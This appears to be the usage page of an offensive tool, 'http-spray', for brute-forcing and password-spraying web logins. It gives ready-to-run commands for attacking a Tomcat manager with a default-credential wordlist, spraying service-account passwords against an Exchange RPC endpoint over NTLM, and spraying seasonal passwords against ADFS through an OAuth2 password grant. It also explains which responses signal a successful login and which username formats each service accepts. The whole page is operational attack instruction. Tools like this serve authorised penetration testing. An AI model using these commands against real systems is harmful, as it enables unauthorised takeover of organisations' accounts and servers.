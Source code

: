 # http-spray

Brute force Tomcat manager.

~~~ bash
curl -LO https://github.com/dadevel/wordlists/raw/main/passwords/tomcat-credentials.txt
http-spray -t https://app.corp.com/tomcat/manager/html -m basic -C ./tomcat-credentials.txt | tee -a ./log.json | jq -c 'select(.status_code != 401)'
~~~

Spray common service accounts against on-prem Exchange server.

~~~ bash
http-spray -t https://mail.corp.com/rpc/ -m ntlm -c scanner:scanner -c printer:printer | tee -a ./log.json | jq -c 'select(.status_code != 401)'
~~~

> **Note:**
> The RPC endpoint returns 404 for successful logins.
> For alternate endpoints see [here](https://github.com/dadevel/wordlists/raw/main/windows/exchange.txt).
>
> Furthermore Exchange accepts the following username formats: `jdoe`, `corp\jdoe`, `corp.com\jdoe`, `jdoe@corp.com` where `jdoe` is the *samaccountname*.
> Depending on the environment the *mail* attribute, e.g. `john.doe@corp.com`, might work for the OWA web login.

Spray weak passwords against ADFS trough OAuth2 password grant.

~~~ bash
http-spray -t https://sts.corp.com/adfs/oauth2/token/ -m oauth --client-id 11111111-2222-3333-4444-555555555555 --resource https://app.corp.com/ -U ./users.txt -p 'Summer2023!' -p 'Winter2023!' | tee -a ./log.json | jq -c 'select(.status_code == 200)'
~~~

> **Note:**
> ADFS accepts the following username formats: `corp\jdoe`, `corp.com\jdoe` and `jdoe@corp.com`.
> Depending on the environment the *mail* attribute, e.g. `john.doe@corp.com`, might work as well.
